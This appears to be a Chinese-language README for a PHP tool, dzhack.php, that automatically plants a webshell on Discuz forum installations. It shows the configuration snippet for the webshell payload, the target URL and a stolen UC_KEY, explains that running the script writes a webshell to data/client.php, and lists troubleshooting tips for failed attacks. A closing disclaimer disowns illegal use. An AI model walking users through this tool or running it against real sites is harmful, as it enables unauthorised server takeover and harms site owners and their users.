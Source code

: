 #### Discuz 全自动 GetShell

本方法比写 config_ucenter.php 更加稳定，而且不易出错

#### 用法

打开 `dzhack.php`, 找到 

```
$webshell = '<?php phpinfo(); ?>';
 
list ($status, $data) = $dz->hack (
   'http://ubuntu64/dz/',
   'K856C548X2xaTcDdc248I1pc57gdq4vdL2SdH3ifGd4a0ec6UdcfX0B7m9Ubrcs4',
   ...
);
```

先把第一行 `$webshell` 的内容改了，不需要考虑编码问题，

然后修改 `hack` 函数的参数，第一个为 discuz 的起始路径，第二行为你找到的 UC_KEY

然后执行 `php dzhack.php`,

会在 `data/client.php` 下面生成一个 webshell,

![Screenshot] (https://raw.githubusercontent.com/CaledoniaProject/discuz-getshell-auto-method2/master/contrib/screenshot.png "Desktop screenshot")


#### 常见失败原因

1. 新版 Dz 防御了 XSS，所以没法 POST XML
2. 提示 Authentication Expired （DZ 拼错了），多试几次就好了，因为服务器时钟不一致导致的

#### Legal Disclaimer

Using this tool is legit but hacking may not be. The author does not take any responsibility for such activities.


这个工具是合法的，然而攻击他人服务器并不是合法的，作者对此不承担任何责任
